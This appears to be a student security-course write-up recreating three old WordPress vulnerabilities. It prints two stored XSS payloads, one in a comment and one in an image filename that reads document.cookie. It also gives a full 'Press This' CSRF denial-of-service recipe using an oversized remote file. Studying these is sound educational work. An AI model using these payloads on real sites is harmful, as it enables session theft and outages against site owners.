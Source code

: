 # Week7Alternate

Exploit 1

Unauthenticated Stored Cross-Site Scripting (XSS)

Vulnerable in WordPress 4.2

Fixed in WordPress 4.2.1

Comments can store XSS, which can be activated if the comment is viewed. One could put in an XSS command that would abuse admin abilities to mess with their wordpress site, such as changing their password or deleting certain pages or other information.

Enter the following as a comment:

<a title='x onmouseover=alert(unescape(/hello%20world/.source))
style=position:absolute;left:0;top:0;width:5000px;height:5000px
 AAAAAAAAAAAA [64 kb] ...'></a>
 And then wait for someone to view the comment.
 
Exploit 2

Authenticated Stored Cross-Site Scripting via Image Filename

Vulnerable in multiple versions as early as 2.5 and as far as 4.6

fixed in Version 4.2.10 for 4.2, one of its latest fixes in 4.6.1

WordPress basically doesn't do validation on the names of image files uploaded to wordpress. This means an attacker can put in malicious javascript code into wordpress.

To recreate this exploit, upload a file with the name "cengizhansahinsumofpwn<img src=a onerror=alert(document.cookie)>.jpg" into wordpress. Once the image is viewed in wordpress, the code should execute.
 
Exploit 3

Press This CSRF DoS
 
Vulnerable in multiple versions of Word Press from 4.2 to 4.7.2

fixed in Version 4.2.13 for 4.2, latest fix in 4.7.3

The "Press This" function of Word Press can scan a URL but there's no limit to the maximum amount of data that can be scanned from the link. Basically, taking advantage of this and tricking an admin of a WordPress page to look into it, an admin's WordPress server will be forced to download an almost infinite amount of data, making the server unavailable for a while.

On another server, create a textfile with the command "perl -e 'print "<>"x28000000' > foo.txt" and another file called "dos.html". In the dos.html file, make sure there are enough entries to fill the WordPress server's connection pool, like:

<|img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=b'|>
<|img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=c'|>
<|img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=d'|>

etc. etc., with "external server" being the external server address and "wp server" replaced with the word press server's address.
